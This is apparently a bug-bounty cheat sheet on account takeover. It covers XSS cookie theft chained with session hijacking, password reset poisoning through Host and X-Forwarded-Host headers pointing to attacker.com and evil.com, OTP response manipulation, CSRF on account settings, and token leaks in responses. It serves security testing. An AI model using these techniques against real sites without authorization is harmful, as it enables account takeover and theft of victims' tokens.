 
## Chaining Session Hijacking with XSS
```
1.I have added a session hijacking method in broken authentication and session management. 
2.If you find that on target.
3.Try anyway to steal cookies on that target.
4.Here I am saying look for xss .
5.If you find xss you can steal the cookies of victim and using session hijacking you can takeover the account of victim.
```
##  No Rate Limit On Login With Weak Password Policy
```
So if you find that target have weak password policy, try to go for no rate limit attacks in poc shows by creating very weak password of your account.

(May or may not be accepted)
```
## Password Reset Poisioning Leads To Token Theft
```
1.Go to password reset funtion.
2.Enter email and intercept the request.
3.Change host header to some other host i.e,
    Host:target.com
    Host:attacker.com
  also try to add some headers without changing host like
    X-Forwarded-Host: evil.com
    Referrer: https://evil.com
4.Forward this if you find that in next request attacker.com means you managed to successfully steal the token. :)
```
## Using  Auth Bypass
```
Check out Auth Bypass method, there is a method for OTP bypass via response manipulation, this can leads to account takeovers.
```
## Try For CSRF On
```
1.Change Password function.
2.Email change
3.Change Security Question
```
## Token Leaks In Response

* So there are multiple ways to do it but all are same.

* So I will sharing my method that I have learnt here .

* Endpoints:(Register,Forget Password)

* Steps(For Registration):
```
  1. For registeration intercept the signup request that contains the data you have entered.
  2. Click on action -> do -> intercept the response to this request.
  3. Click forward.
  4. Check response if that contains any link, any token or OTP.
 ```
 ------------------------
 * Steps (For password reset):
 ``` 
  1. Intercept the forget password option.
  2. Click on action -> do -> intercept the response to this request.
  3. Click forward.
  4. Check response if that contains any link,any token or OTP.
 ```

## Reference:
* Various Source From Google,Twitter,Medium

## Author
* [@Virdoex_hunter](https://twitter.com/Virdoex_hunter)
